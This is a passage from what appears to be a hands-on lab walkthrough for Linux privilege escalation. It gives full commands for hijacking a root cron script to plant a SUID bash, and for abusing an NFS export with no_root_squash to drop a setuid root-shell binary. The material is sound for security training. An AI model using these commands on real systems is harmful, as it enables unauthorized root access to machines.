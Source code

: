 **Exploitation**

**Linux VM**

1. In command prompt type: `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh`
2. Wait 1 minute for the Bash script to execute.
3. In command prompt type: `/tmp/bash -p`
4. In command prompt type: `id`

---

1. Click 'Completed' once you have successfully elevated the machine 

## Privilege Escalation - NFS Root Squashing

**Detection**

**Linux VM**

1. In command line type: `cat /etc/exports`
2. From the output, notice that “no_root_squash” option is defined for the “/tmp” export.

**Exploitation**

**Attacker VM**

1. Open command prompt and type: `showmount -e MACHINE_IP`
2. In command prompt type: `mkdir /tmp/1`
3. In command prompt type: `mount -o rw,vers=2 MACHINE_IP:/tmp /tmp/1`
4. In command prompt type: `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c`
5. In command prompt type: `gcc /tmp/1/x.c -o /tmp/1/x`
6. In command prompt type: `chmod +s /tmp/1/x`

**Linux VM**

1. In command prompt type: `/tmp/x`
2. In command prompt type: `id`

---

1. Click 'Completed' once you have successfully elevated the machine
